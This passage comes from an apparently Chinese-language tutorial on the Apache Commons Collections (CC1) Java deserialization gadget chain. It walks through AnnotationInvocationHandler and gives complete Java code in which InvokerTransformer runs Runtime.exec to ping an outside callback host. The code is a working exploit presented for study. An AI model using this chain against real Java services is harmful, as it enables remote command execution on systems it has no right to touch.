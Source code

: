 ```java
        for(Map.Entry entry: transformedMap.entrySet()){
            entry.setValue(null);
        }
    }
}
```

执行后的结果如下-->

![alt text](image-48.png)

## 三顾茅庐

走到这里了，去找有无在 readObject 方法中调用了 setValue 方法的类，不班门弄斧了，就是 AnnotationInvocationHandler 这个类-->

![alt text](image-66.png)

且可以看到它的这行代码`for (Map.Entry<String, Object> memberValue : memberValues.entrySet())`已经实现了一个 for 循环，意味着只用让 memberValues 等于 transformedMap 即可，而 memberValues 可从该类的构造函数来，很美的一条链子。这个类不是 public 的，反射构造一下即可，代码如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) throws Exception {
        String methodName = "exec";
        Class<?>[] paramTypes = new Class[]{String.class};
        Object[] argsForConstructor = new Object[]{"ping 6y7d5.cxsys.spacestabs.top"};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer(methodName, paramTypes, argsForConstructor)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put(null,null);
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor m = clazz.getDeclaredConstructor(Class.class, Map.class);
        m.setAccessible(true);
        m.newInstance(Override.class, transformedMap);
    }
}
```
